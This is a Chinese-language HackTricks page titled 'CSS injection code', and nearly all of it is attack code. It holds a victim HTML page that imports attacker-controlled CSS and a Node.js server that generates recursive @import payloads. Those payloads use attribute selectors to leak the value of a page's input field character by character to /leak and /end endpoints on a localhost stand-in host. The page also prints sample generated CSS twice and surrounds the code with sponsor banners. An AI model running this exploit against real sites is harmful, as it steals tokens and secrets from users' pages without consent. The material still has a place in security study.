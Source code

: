 # CSS注入代码

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载HackTricks的PDF**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **通过向[hacktricks仓库](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud仓库](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

找到最重要的漏洞，以便更快地修复它们。Intruder跟踪您的攻击面，运行主动威胁扫描，发现整个技术堆栈中的问题，从API到Web应用程序和云系统。[**立即免费试用**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

{% code title="victim.html" %}
```html
<!doctype html>
<body>
<div><article><div><p><div><div><div><div><div>
<input type="text" value="1234567890">
<style>
@import url('//localhost:5001/start?');
</style>
```
{% code title="server.js" %}
```javascript
const http = require('http');
const url = require('url');

// Port to exfiltrate to
const port = 5001;
// Host to exfiltrate to
const HOSTNAME = "http://localhost:5001";
const DEBUG = false;

var prefix = "", postfix = "";
var pending = [];
var stop = false, ready = 0, n = 0;

const requestHandler = (request, response) => {
let req = url.parse(request.url, url);
log('\treq: %s', request.url);

//If stop, leakeage is finished
if (stop) return response.end();

switch (req.pathname) {
// This only launched when starting the leakeage
case "/start":
genResponse(response);
break;

// Everytime something is leaked
case "/leak":
response.end();
// If response comes with a pre, then we leaked some preffix s(E)cret
if (req.query.pre && prefix !== req.query.pre) {
prefix = req.query.pre;

// If response comes with a post, then we leaked some suffix secre(T)
} else if (req.query.post && postfix !== req.query.post) {
postfix = req.query.post;
} else {
break;
}

// Always a pre and a post response must arrived before responding the "next" @import (which is waiting for response)
if (ready == 2) {
genResponse(pending.shift());
ready = 0;
} else {
ready++;
log('\tleak: waiting others...');
}
break;

// While waiting for a pre and a post, the next @import is waiting to be responded
// by a new generated payload with another "pre" and "post"
case "/next":
if (ready == 2) {
genResponse(respose);
ready = 0;
} else {
pending.push(response);
ready++;
log('\tquery: waiting others...');
}
break;

// Called when the secret is leaked
case "/end":
stop = true;
console.log('[+] END: %s', req.query.token);

default:
response.end();
}
}

const genResponse = (response) => {
// Verbose output to know what do we know
console.log('...pre-payoad: ' + prefix);
console.log('...post-payoad: ' + postfix);

// Payload generation, you have an example of what is generated below
let css = '@import url('+ HOSTNAME + '/next?' + Math.random() + ');\n' +
[0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value$="' + e + postfix + '"]{--e'+n+':url(' + HOSTNAME + '/leak?post=' + e + postfix + ')}')).join('') +
'div '.repeat(n) + 'input{background:var(--e'+n+')}' +
[0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value^="' + prefix + e + '"]{--s'+n+':url(' + HOSTNAME + '/leak?pre=' + prefix + e +')}')).join('') +
'div '.repeat(n) + 'input{border-image:var(--s'+n+')}' +
'input[value='+ prefix + postfix + ']{list-style:url(' + HOSTNAME + '/end?token=' + prefix + postfix + '&)};';

response.writeHead(200, { 'Content-Type': 'text/css'});
response.write(css);
response.end();
n++;
}


// Server listening
const server = http.createServer(requestHandler)

server.listen(port, (err) => {
if (err) {
return console.log('[-] Error: something bad happened', err);
}
console.log('[+] Server is listening on %d', port);
})

function log() {
if (DEBUG) console.log.apply(console, arguments);
}

/*
HTTP/1.1 200 OK
Content-Type: text/css
Date: Fri, 01 Apr 2022 14:35:39 GMT
Connection: close
Content-Length: 2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/

/*
HTTP/1.1 200 OK
Content-Type: text/css
日期：星期五，2022年4月1日 14:35:39 GMT
连接：关闭
内容长度：2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/
{% endcode %}

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

找到最重要的漏洞，以便更快地修复它们。Intruder跟踪您的攻击面，运行主动威胁扫描，发现整个技术堆栈中的问题，从API到Web应用程序和云系统。[**立即免费试用**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 您在**网络安全公司**工作吗？您想在HackTricks中看到您的**公司广告**吗？或者您想获得**PEASS的最新版本或下载HackTricks的PDF**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享您的黑客技巧**。

</details>

